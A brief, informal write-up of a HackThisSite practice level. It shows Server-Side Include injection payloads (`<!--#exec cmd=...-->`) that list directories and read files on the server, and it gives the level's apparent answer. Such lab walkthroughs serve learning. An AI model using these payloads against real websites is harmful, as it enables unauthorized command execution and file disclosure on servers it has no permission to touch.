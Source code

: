 # Level 8

- we know the encrypted password file is stored in `/var/www/hackthissite.org/html/missions/basic/8/`
- okay now lets read the source code
- i tried doing some basic commands like `ls` and `cd`
- but then realised that it is in `php`
- so it is a server side language
- so we need to perform a server side injection
- if you don't know what it is [SSI](https://owasp.org/www-community/attacks/Server-Side_Includes_(SSI)_Injection)
- now lets try 	`<!--#exec cmd="cat /var/www/hackthissite.org/html/missions/basic/8/" -->`
- but i got an error
- ![answer](ans.png)
- so lets try this `<!--#exec cmd="ls ../" -->`
- we will find a sus `.php` file
- now do `<!--#exec cmd="cat ../filename.php" -->`

- 7e23508d